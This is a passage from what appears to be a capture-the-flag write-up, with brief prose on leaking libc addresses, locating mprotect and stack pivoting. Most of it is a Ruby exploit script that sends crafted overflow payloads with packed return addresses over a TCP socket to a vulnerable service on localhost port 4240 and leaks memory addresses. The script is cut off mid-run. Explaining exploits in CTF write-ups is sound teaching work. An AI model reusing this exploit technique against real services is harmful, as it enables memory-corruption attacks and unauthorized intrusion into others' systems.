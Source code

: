  t.print "3\n2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0\x04\x08\n"
 t.print "1\np\n"
 ret = (t.read 0xfaf)[-4,4].unpack("L")[0]
 t.close
 count += 1
end
</pre>


<p>
  I am going to gloss over how to find the address of mprotect. I used the same method as previously: ssh to find distribution, download libc package, find address of something exported by libc using information disclosure, and then use the downloaded libc to find that same thing and then mprotect.
</p>


<p>
  At this point, we are done. Things can probably be optimized a bit. I don&#8217;t really like the way that I get the stack address. And I believe that the stack pivot can be done without needing to know the stack address.
</p>


<p>
  Below is the complete ruby script that I wrote (for Debian). In the competition it didn&#8217;t work perfectly since the address of __libc_start_main contained a null byte, but that is easily fixed and probably is an issue only on Ubuntu.
</p>


<pre>#!/usr/bin/ruby

require 'socket'

host = "localhost"
port = 4240

t = TCPSocket.new(host, port)
t.print "3\n1\n1\n1\n2\n3\n1\n\x41\x41\x41\x41\x78\x99\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF\xc8\xb0\x04\x083\n3\n1\n\x41\x
41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x0
0\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\x00\n3\
n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\x00\n3\n1\n\x41\x41\x41\x41"+"\x1c\xb0\x04\x08"+"\x01\x00\n3\n2\nAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0
\x04\x08\n1\np\n"
libc_start_main = (t.read 0xfaf)[-4,4].unpack("L")[0]
print libc_start_main.to_s(16),"\n"
t.close

program_name_ptr = [(libc_start_main+0x138018)].pack("L") # 0x138018 is dependent on libc

t = TCPSocket.new(host, port)
t.print "3\n1\n1\n1\n2\n3\n1\n\x41\x41\x41\x41\x78\x99\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF\xc8\xb0\x04\x083\n3\n1\n\x41\x
41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x0
0\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\x00\n3\
n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\x00\n3\n1\n\x41\x41\x41\x41"+program_name_ptr+"\x01\x00\n3\n2\nAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB\xd0\xb0\x
04\x08\n1\np\n"
program_name = (t.read 0xfaf)[-4,4].unpack("L")[0]